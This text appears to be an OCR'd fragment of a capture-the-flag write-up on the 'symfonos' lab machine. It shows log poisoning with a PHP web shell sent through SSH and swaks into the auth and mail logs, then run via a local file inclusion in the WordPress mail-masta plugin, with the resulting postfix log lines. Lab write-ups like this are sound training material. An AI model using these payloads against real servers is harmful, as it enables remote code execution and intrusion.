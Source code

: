 /var/log/auth.log
ssh '<?php echo "hello"; ?>'@<IP>

/var/log/mail.*

root@symfonos:/var/log# ls -al mail.log 
-rw-r----- 1 root adm 384 Nov 23 04:17 mail.log
root@symfonos:/var/log# chmod o+r mail.log
root@symfonos:/var/log# ls -al mail.log 
-rw-r--r-- 1 root adm 384 Nov 23 04:17 mail.log


└─$ swaks --from ' <?php system($_REQUEST["cmd"]); ?> @symfonos.localdomain' --to helios@symfonos.localdomain --server 192.168.56.130 --header  'Subject: Test email' --body '<?php system($_REQUEST["cmd"]);  ?>'


Nov 23 04:17:50 symfonos postfix/smtpd[3119]: connect from unknown[192.168.56.1]
Nov 23 04:17:50 symfonos postfix/smtpd[3119]: warning: Illegal address syntax from unknown[192.168.56.1] in MAIL command: < <?php system($_REQUEST["cmd"]); ?> @symfonos.localdomain>
Nov 23 04:17:50 symfonos postfix/smtpd[3119]: disconnect from unknown[192.168.56.1] ehlo=1 mail=0/1 quit=1 commands=2/3



└─$ curl "http://192.168.56.130/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/log/mail.log&cmd=id"
